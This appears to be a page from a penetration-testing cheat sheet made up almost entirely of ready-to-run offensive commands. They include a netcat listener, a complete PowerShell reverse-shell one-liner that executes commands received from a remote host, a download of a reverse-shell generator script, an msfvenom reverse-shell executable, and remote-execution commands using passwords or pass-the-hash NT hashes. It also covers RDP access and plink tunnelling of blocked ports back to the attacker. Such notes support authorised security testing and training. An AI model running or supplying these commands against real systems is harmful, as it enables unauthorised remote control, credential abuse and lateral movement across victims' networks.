 ## Utilities
### Shell stabilization and interactivity
- Listen to reverse shell:
```bash
rlwrap nc -lvnp 443
```

### Useful reverse shells
- Powershell oneliner:
```cmd
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<ip>',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```
- Base64 encoded powershell oneliner:
```bash

wget https://gist.githubusercontent.com/tothi/ab288fb523a4b32b51a53e542d40fe58/raw/40ade3fb5e3665b82310c08d36597123c2e75ab4/mkpsrevshell.py
python3 mkpsrevshell.py <ip> 443
```
- TCP reverse shell executable:
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=<ip> LPORT=443 -f exe > shell.exe
```
- Via SMB:
```bash
psexec.py '<username>:<password>@<ip>'
wmiexec.py '<username>:<password>@<ip>'
winexe -U '<username>%<password>' //<ip> cmd.exe
pth-winexe -U '<username>%<lm_hash>:<nt_hash>' //<ip> cmd.exe
```
- Via WinRM:
```bash
evil-winrm -i <ip> -u <username> -p <password>
evil-winrm -i <ip> -u <username> -H <nt_hash>
```

### RDP connection
```bash
xfreerdp +clipboard /w:1280 /h:720 /smart-sizing /cert:ignore /v:<ip> /u:<user> /p:'<password>'
```

### Port forwarding _(Plink)_
- Prepare:
```bash
cp ~/pentesting-tools/plink/plink64.exe ./plink.exe
```
- [Copy to the target](#copy-files-fromto-the-target)
- Forward the blocked port:
```cmd
.\plink.exe root@<my_ip> -R <kali_port>:127.0.0.1:<port_to_forward>
```
